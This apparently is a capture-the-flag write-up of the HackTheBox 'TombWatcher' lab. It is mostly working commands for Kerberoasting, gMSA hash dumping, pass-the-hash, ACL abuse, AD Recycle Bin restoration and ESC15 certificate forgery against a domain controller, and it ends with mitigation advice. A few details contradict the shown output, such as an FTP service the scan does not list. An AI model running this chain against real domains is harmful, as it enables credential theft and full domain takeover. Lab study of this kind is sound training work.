




# Machine Information

| **IP Address**       | 10.129.101.78   |
| -------------------- | --------------- |
| **Operating System** | Windows         |
| **Hostname**         | DC              |
| **Domain**           | tombwatcher.htb |
| **Release Date**     | June 2025       |
| **Difficulty**       | Medium          |

<table>
<tr>
<td><strong>IP Address</strong></td>
<td>10.129.101.78</td>
</tr>
<tr>
<td><strong>Operating System</strong></td>
<td>Windows</td>
</tr>
<tr>
<td><strong>Hostname</strong></td>
<td>DC</td>
</tr>
<tr>
<td><strong>Domain</strong></td>
<td>tombwatcher.htb</td>
</tr>
<tr>
<td><strong>Release Date</strong></td>
<td>June 2025</td>
</tr>
<tr>
<td><strong>Difficulty</strong></td>
<td>Medium</td>
</tr>
</table>

# Machine Description

TombWatcher is a Windows domain controller running Active Directory Certificate Services (AD CS) with multiple misconfigurations. The machine exploits a chain of privilege escalation vectors, including Kerberoasting, Group Managed Service Accounts (GMSA) abuse, and critically, the AD CS vulnerability ESC15 combined with Active Directory Recycle Bin exploitation. The attack chain demonstrates how interconnected misconfigurations in Active Directory security can be chained together to achieve full domain compromise.


# Exploitation Summary

The attack chain involved:

1. **Initial Access**: Enumerating Active Directory structure using BloodHound.py with provided credentials (henry:H3nry_987TGV!)
2. **Kerberoasting**: Exploiting WriteSPN privilege on user Alfred to add a Service Principal Name (SPN) and extract a crackable Kerberos ticket
3. **Credential Acquisition**: Cracking the extracted TGS hash to obtain Alfred's credentials (basketball)
4. **Group Membership Escalation**: Adding Alfred to the Infrastructure group, which had permissions to read GMSA passwords
5. **GMSA Abuse**: Extracting the NT hash for ansible_dev service account via GMSA password dumping
6. **ACL Abuse Chain**: Exploiting a series of ACL permissions (ForceChangePassword → WriteOwner → FullControl) to escalate from ansible_dev to sam, then sam to john
7. **Recycle Bin Exploitation**: Discovering a deleted certificate administrator account in the Active Directory Recycle Bin and restoring it by exploiting john's FullControl over the ADCS OU
8. **ESC15 Exploitation**: Using the restored cert_admin account to exploit the CVE-2024-49019 vulnerability in AD CS to forge a certificate with elevated privileges
9. **Domain Admin Access**: Leveraging the forged certificate to authenticate as the Domain Administrator and obtain the root flag


# Detailed Walkthrough

## Road to User Flag

### ***Phase 1: Initial Network Reconnaissance and Service Discovery***

The initial phase began with network reconnaissance to identify services running on the target machine. An Nmap scan was performed against the target IP address 10.129.101.78 with service version detection enabled.

```
$ sudo nmap 10.129.101.78 -Pn -sV

...SNIP...

PORT     STATE SERVICE       VERSION  
53/tcp   open  domain        Simple DNS Plus  
80/tcp   open  http          Microsoft IIS httpd 10.0  
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-10-05 12:27:57Z)  
135/tcp  open  msrpc         Microsoft Windows RPC  
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn  
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb, Site: Def  
ault-First-Site-Name)  
445/tcp  open  microsoft-ds?  
464/tcp  open  kpasswd5?  
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0  
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb, Site: Def  
ault-First-Site-Name)  
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb, Site: Def  
ault-First-Site-Name)  
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb, Site: Def  
ault-First-Site-Name)  
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

...SNIP...
```

The scan revealed that the target was a fully functional Domain Controller running Active Directory. Furthermore, there was an active FTP service.

### ***Phase 2: Active Directory Enumeration with BloodHound***

With initial credentials provided (`henry:H3nry_987TGV!`), BloodHound was used to enumerate the Active Directory structure and identify privilege escalation paths. First, i executed the data collector to get all the domain data including users, groups, computers, OUs, and ACL relationships.

```
$ sudo python3 ~/Tools/BloodHound.py/bloodhound.py -d tombwatcher.htb -c all -u henry -p H3nry_987TGV! -ns 10.129.101.78 -k --zip
```

Subsequently, i uploaded the zip file on BloodHound GUI. The BloodHound analysis revealed that the user henry possessed the `WriteSPN` privilege on the user `alfred`. 



This permission would allow modification of `alfred`'s Service Principal Name (SPN) attribute, enabling a Kerberoasting attack.

### ***Phase 3: Clock Synchronization for Kerberos Authentication***

Before proceeding with Kerberos-based attacks, from a root shell I synchronized the time between the attacker's machine and the target Domain Controller. Kerberos is extremely sensitive to time differences, and any skew greater than a few minutes would cause authentication failures.

```
$ sudo timedatectl set-ntp off
$ sudo rdate -n 10.129.101.78
```

The attack machine's clock was synchronized to match the Domain Controller's time, ensuring that subsequent Kerberos operations would succeed.

### ***Phase 4: Kerberoasting Attack on Alfred***

The Kerberoasting attack exploited the `WriteSPN` privilege that henry possessed over `alfred`'s account. The `targetedKerberoast.py` tool was used to:
1. Add a Service Principal Name to `alfred`'s account
2. Request a Kerberos TGS (Ticket Granting Service) ticket for that SPN
3. Extract the TGS hash for offline cracking
4. Remove the added SPN to avoid detection

```
$ python3 ./targetedKerberoast.py -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!' 
[*] Starting kerberoast attacks  
[*] Fetching usernames from Active Directory with LDAP  
[VERBOSE] SPN added successfully for (Alfred)  
[+] Printing hash for (Alfred)  
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$94215638ddf9194cd5fbb517147e3667$02f84ce...SNIP... 
```

The tool successfully extracted `alfred`'s TGS hash:

### ***Phase 5: Hash Cracking and Credential Acquisition***

The extracted TGS hash was cracked using Hashcat with the `rockyou.txt` wordlist. The cracking process identified `alfred`'s password as `basketball`.

```
$ hashcat -m 13100 alfred.hash /usr/share/wordlists/rockyou.txt 

...SNIP... 

$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$6b640d6d48b7a83825 025f081cdcf590......f5af6c9...:basketball 

...SNIP
```

With `alfred`'s credentials now compromised (`alfred:basketball`), the attacker could proceed with further privilege escalation.

### ***Phase 6: Group Membership Escalation via AddSelf Privilege***

The BloodHound analysis revealed that `alfred` possessed the `AddSelf` privilege on the `Infrastructure` group. This permission allowed `alfred` to add himself to the group. 



Using the bloodyad tool with `alfred`'s credentials, the user was successfully added to the `Infrastructure` group.

```
$ bloodyad -H 10.129.101.78 -d tombwatcher.htb -u alfred -p basketball add groupMember INFRASTRUCTURE alfred
```

Verification confirmed the group membership was successfully established:

```
$ bloodyad -H 10.129.101.78 -d tombwatcher.htb -u alfred -p basketball get membership alfred  
  
distinguishedName: CN=Users,CN=Builtin,DC=tombwatcher,DC=htb  
objectSid: S-1-5-32-545  
sAMAccountName: Users  
  
distinguishedName: CN=Domain Users,CN=Users,DC=tombwatcher,DC=htb  
objectSid: S-1-5-21-1392491010-1358638721-2126982587-513  
sAMAccountName: Domain Users  
  
distinguishedName: CN=Infrastructure,CN=Users,DC=tombwatcher,DC=htb  
objectSid: S-1-5-21-1392491010-1358638721-2126982587-1107  
sAMAccountName: Infrastructure
```

The `Infrastructure` group membership would prove critical in the next phase of the exploitation.

### ***Phase 7: Group Managed Service Account (GMSA) Password Extraction***

The `Infrastructure` group possessed permissions to read the managed password for the `ansible_dev$` Group Managed Service Account (GMSA). 



GMSAs are special Active Directory objects where the password is automatically managed and rotated by domain controllers. The intended use of a GMSA is to allow certain computer accounts to retrieve the password for the GMSA, then run local services as the GMSA. Any principal listed in the "Managed Password Read" permissions can retrieve the current password for that service account. The `gMSADumper.py` tool was executed to extract the NT hash for the `ansible_dev$` account:

```
$ python3 gMSADumper.py -u 'alfred' -p 'basketball' -d 'tombwatcher.htb'

...SNIP...
 
ansible_dev$:::3eca34dd13a85db79c03178b7b149621  

...SNIP...
```

### ***Phase 8: ACL Exploitation Chain - ansible_dev to sam***

The next escalation step involved exploiting a chain of ACL permissions. The `ansible_dev$` account possessed the `ForceChangePassword` privilege on the `sam` user account. 



Using the Pass-the-Hash technique with the extracted `ansible_dev$` NT hash, the attacker changed `sam`'s password.

```
$ pth-net rpc password "sam" 'pass' -U "tombwatcher.htb/ansible_dev$" % "3eca34dd13a85db79c03178b7b149621" -S DC01.tombwatcher.htb
```

Verification confirmed the new credentials were valid:

```
$ nxc smb 10.129.101.78 -u sam -p pass -d tombwatcher.htb

...SNIP...
  
SMB         10.129.101.78   445    DC01             [+] tombwatcher.htb\sam:pass
```

### ***Phase 9: FullControl via Owner Modification***

The `sam` user possessed the `WriteOwner` privilege on the `john` user account. This permission allowed `sam` to become the owner of `john`'s user object. The `owneredit.py` tool from Impacket was used to modify the owner:

```
$ python3 ./owneredit.py -action write -new-owner 'sam' -target 'john' 'tombwatcher.htb/sam:pass'
```

Once sam became the owner of john's account, the ownership change granted implicit `FullControl` over the object.

### ***Phase 10: ACL Modification and Password Reset***

With ownership of `john`'s account, `sam` could modify `john`'s Access Control List (ACL) to grant explicit `FullControl` to the `sam` user. The `dacledit.py` tool was used to apply this change:

```
$ python3 ./dacledit.py -action 'write' -rights 'FullControl' -principal 'sam' -target 'john' 'tombwatcher.htb/sam:pass'
```

With `FullControl` permissions, `sam` was able to reset `john`'s password:

```
$ net rpc password "john" "pass1" -U "tombwatcher.htb/sam" % "pass" -S "DC01.tombwatcher.htb"
```

### ***Phase 11: Get the flag***

The `john` user was a member of the `Remote Management Users` group, which granted access to the machine via Windows Remote Management (WinRM). Using `evil-winrm` with `john`'s new credentials, a remote shell was established:

```
$ evil-winrm -i 10.129.101.78 -u john -p pass1
```

The user flag was successfully retrieved from john's Desktop directory:

```
*Evil-WinRM* PS C:\Users\john\Documents> type C:\Users\john\Desktop\user.txt
```

<mark>User flag</mark>: `9261037815225a8dbf813c21dcca783f`

## Road to Root Flag

### ***Phase 1: AD CS Enumeration and Template Discovery***

Following the acquisition of user-level access through `john`'s account, the focus shifted to privilege escalation toward domain administrator. The `john` user possessed the `GenericAll` permission on the `ADCS` organizational unit (OU), which contained certificate service configurations. Initial enumeration of the `ADCS` container revealed it was empty of objects. The `certipy-ad` tool was used to perform a comprehensive enumeration of the Active Directory Certificate Services infrastructure:

```
$ certipy-ad find -u john -p pass1 -dc-ip 10.129.101.78

...SNIP...
  
[*] Wrote text output to '20261006013602_Certipy.txt'  

...SNIP...
```

### ***Phase 2: Discovering the Deleted cert_admin Account in AD Recycle Bin***

During the `20261006013602_Certipy.txt` file analisy, an anomaly was noticed in the WebServer template's enrollment permissions. One of the enrollment rights was represented as a raw Security Identifier (SID) rather than a resolved account name: `S-1-5-21-1392491010-1358638721-2126982587-1111`. 

```
...SNIP...

Template Name                       : WebServer

...SNIP...

    Permissions
      Enrollment Permissions
        Enrollment Rights               : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          S-1-5-21-1392491010-1358638721
                                          2126982587-1111
                                          
...SNIP...
```

This typically indicates that the corresponding object has been deleted from Active Directory. Active Directory's Recycle Bin feature, if active, maintains deleted objects in a recoverable state for a period of time (the tombstone lifetime). These deleted objects retain all their original properties, group and OUs memberships, and permissions. The Recycle Bin was queried from `john`'s WinRM shell to see if the found SID was present:

```
*Evil-WinRM* PS C:\Users\john\Documents> Import-Module ActiveDirectory
*Evil-WinRM* PS C:\Users\john\Documents> Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects -Properties cn,objectSid,isDeleted

...SNIP...

CN: cert_admin
objectSid: S-1-5-21-1392491010-1358638721-2126982587-1111
isDeleted: True
DistinguishedName: CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb

...SNIP...
```

The output revealed that the SID corresponded to a user account named `cert_admin` that had been deleted. Further investigation confirmed that the `cert_admin` account's last known parent OU was the ADCS organizational unit:

```
*Evil-WinRM* PS C:\Users\john\Documents> Get-ADObject -Filter 'objectSid -eq "S-1-5-21-1392491010-1358638721-2126982587-1111"' -IncludeDeletedObjects -Properties *

...SNIP...

LastKnownParent: OU=ADCS,DC=tombwatcher,DC=htb

...SNIP...
```

### ***Phase 3: Restoring the Deleted cert_admin Account***

Since `john` possessed `GenericAll` permissions on the `ADCS` OU, the user had the necessary privileges to restore the deleted `cert_admin` account, since this is a write operation on the OU. When an object is restored from Active Directory's Recycle Bin, the system reads the object's metadata, particularly the `LastKnownParent` attribute, and recreates the object in its original parent OU with all its properties and permissions intact. The `cert_admin` account was restored using the `Restore-ADObject` PowerShell cmdlet from `ActiveDirectory` module:

```
*Evil-WinRM* PS C:\Users\john\Documents> Restore-ADObject -Identity "938182c3-bf0b-410a-9aaa-45c8e1a02ebf"
```

The restoration process reinserted the `cert_admin` account into the ADCS OU with all its original attributes.

### ***Phase 4: Escalating Permissions Within the ADCS OU***

Since `john` has `GenericAll` privileges over the `ADCS` OU, we can force the propagation of an inherited `FullControl` ACE from the parent container down to all child objects, effectively granting us full control over the newly restored `cert_admin` account. The dacledit.py tool was used to modify the OU's DACL:

```
$ python3 ./dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'john' -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' tombwatcher.htb/john:pass1
```

This modification ensured that `john` would have `FullControl` over the `cert_admin` account and any other objects in the `ADCS` OU.

### ***Phase 5: Password Reset and Account Activation***

With the necessary permissions established, `cert_admin`'s password was reset:

```
$ bloodyad -H 10.129.101.78 -d tombwatcher.htb -u 'john' -p 'pass1' set password cert_admin 'pass2'
```

The account was now accessible with the credentials `cert_admin:pass2`.

### ***Phase 6: Re-enumeration with cert_admin Credentials***

With access to the `cert_admin` account, the AD CS infrastructure was re-enumerated to identify additional vulnerable certificate templates. The `cert_admin` account possessed higher privileges within the certificate service environment:

```
$ certipy-ad find -u cert_admin -p pass2 -dc-ip 10.129.101.78

...SNIP...
  
[*] Wrote text output to '20261006013603_Certipy.txt'  

...SNIP...
```

The outpur revealed the presence of ESC15 vulnerability for the `WebServer` template, also known as "EKUwu" and tracked as CVE-2024-49019.

```
...SNIP...

Template Name                       : WebServer

    Display Name                        : Web Server
    Certificate Authorities             : tombwatcher-CA-1
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 1
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-16T00:57:49+00:00
    Template Last Modified              : 2024-11-16T17:07:26+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          TOMBWATCHER.HTB\cert_admin  

...SNIP...

    [!] Vulnerabilities
      ESC15                             : Enrollee supplies subject and schema version is 1.

...SNIP...
```

This vulnerability affects certificate templates using Schema Version 1 architecture. The core issue stems from insufficient Application Policy validation in Version 1 templates. When such a template is configured to allow enrollees to supply the subject information, an attacker can inject a Client Authentication application policy into the certificate request. Since the CA fails to enforce proper constraints on these injected policies, the resulting certificate, originally intended only for Server Authentication, becomes valid for client authentication purposes as well. This enables an attacker to impersonate arbitrary domain users.

### ***Phase 7: Exploiting ESC15 via Application Policies Injection***

With the `cert_admin` account having enrollment rights on the vulnerable `WebServer` template, the ESC15 vulnerability was exploited. The `certipy-ad` tool was used to request a certificate from the WebServer template while injecting a malicious Application Policies extension. The "Certificate Request Agent" OID (`1.3.6.1.4.1.311.20.2.1`) was injected, which would grant the certificate the ability to act as an enrollment agent, allowing the issuance of additional certificates on behalf of other users.

```
$ certipy-ad req -u 'cert_admin@tombwatcher.htb' -p 'pass2' -dc-ip '10.129.101.78' -ca 'tombwatcher-CA-1' -template 'WebServer' -application-policies 'Certificate Request Agent'

...SNIP...
 
[*] Wrote certificate and private key to 'cert_admin.pfx' 
```

The unpatched Certificate Authority processed the request and issued a certificate with the injected Application Policies extension, resulting in the certificate file `cert_admin.pfx` that possessed unauthorized enrollment agent capabilities.

### ***Phase 8: Enrollment Agent Abuse for Administrator Certificate***

With the enrollment agent certificate, `certipy-ad`'s `on-behalf-of` feature was leveraged to request a new certificate from the `User` template, but with the UPN set to the `Administrator` account. This technique, combined with the enrollment agent permissions in the injected certificate, allowed the creation of a certificate authenticated as the domain administrator:

```
$ certipy-ad req -u 'cert_admin@tombwatcher.htb' -p 'pass2' -dc-ip '10.129.101.78' -ca 'tombwatcher-CA-1' -template 'User' -pfx 'cert_admin.pfx' -on-behalf-of 'tombwatcher\Administrator'

...SNIP...

[*] Wrote certificate and private key to 'administrator.pfx'
```

The CA issued the certificate `administrator.pfx` with the UPN set to `Administrator@tombwatcher.htb` and the corresponding security identifier (SID) for the domain administrator account.

### ***Phase 9: Authentication as domain administrator***

The Administrator certificate was used to authenticate to the domain controller and obtain the `Administrator` NTLM hash. The `certipy-ad`'s authentication module was used to perform this operation:

```
$ certipy-ad auth -pfx 'administrator.pfx' -dc-ip '10.129.101.78'

...SNIP...

[*] Got hash for 'administrator@tombwatcher.htb': aad3b435b51404eeaad3b435b51404ee:f61db423bebe3328d33a  
f26741afe5fc
```

### ***Phase 10: Get the flag***

With the `Administrator`'s NTLM hash obtained, evil-winrm was used to establish a remote shell session as the Domain Administrator using Pass-the-Hash authentication:

```
$ evil-winrm -i 10.129.101.78 -u Administrator -H f61db423bebe3328d33af26741afe5fc
```

Once authenticated as the domain administrator, full access to the system was achieved. The root flag was located in the `Administrator`'s Desktop directory:

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
```

<mark>Root flag</mark>: `dd4c586f56d04df4a2c3642e92761b14`


# Key Vulnerabilities Exploited

- **Kerberoasting via WriteSPN**: The henry user possessed WriteSPN privileges on Alfred's account, allowing the addition of a Service Principal Name (SPN) and the extraction of a crackable Kerberos TGS ticket
- **GMSA Misconfiguration**: The Infrastructure group had read permissions on the ansible_dev Group Managed Service Account password, enabling extraction of the service account's NT hash despite GMSA's automatic password rotation
- **Chained ACL Permissions**: A series of exploitable ACL permissions (ForceChangePassword → WriteOwner → FullControl) allowed privilege escalation from ansible_dev to sam to john without requiring password modifications
- **Active Directory Recycle Bin Exposure**: The deleted cert_admin account remained recoverable in the Recycle Bin with all original permissions intact, allowing restoration and reuse despite being removed from the directory
- **ESC15 (CVE-2024-49019)**: The unpatched Certificate Authority was vulnerable to Application Policies injection on Schema Version 1 templates, allowing arbitrary OID injection and certificate forgery
- **Inadequate ADCS Permission Controls**: Overly permissive enrollment rights and lack of approval workflows allowed unauthorized users to request and obtain certificates with elevated privileges


# Conclusion

The TombWatcher machine demonstrates how multiple misconfigurations combine to enable complete domain compromise. From Kerberos ticket extraction through GMSA abuse, chained ACL escalation, and finally certificate forgery via ESC15, each stage exploited the previous vulnerability. This emphasizes the importance of strict ACL management, regular patching of Certificate Services, proper privilege assignment, and careful Recycle Bin access controls. To mitigate these vulnerabilities, organizations should implement regular ACL audits to identify and remediate overly permissive permissions that enable privilege escalation chains. Dangerous privileges like WriteSPN should be restricted to trusted administrators only and monitored for unauthorized changes. GMSA passwords should be accessed only by authorized groups with legitimate business requirements, and access should be regularly reviewed. Certificate Services must be kept current with security patches to prevent exploitation of vulnerabilities like ESC15, and enrollment rights should be strictly limited with mandatory approval workflows. The Active Directory Recycle Bin should be secured with restricted access to prevent unauthorized account restoration, and tombstone lifetime should be carefully configured. Multi-factor authentication and passwordless authentication methods should be implemented to reduce reliance on password-based credentials that can be compromised through ticket cracking. This case study underscores that Active Directory security requires defense in depth, as layered misconfigurations create an irresistible path to domain administrator access.

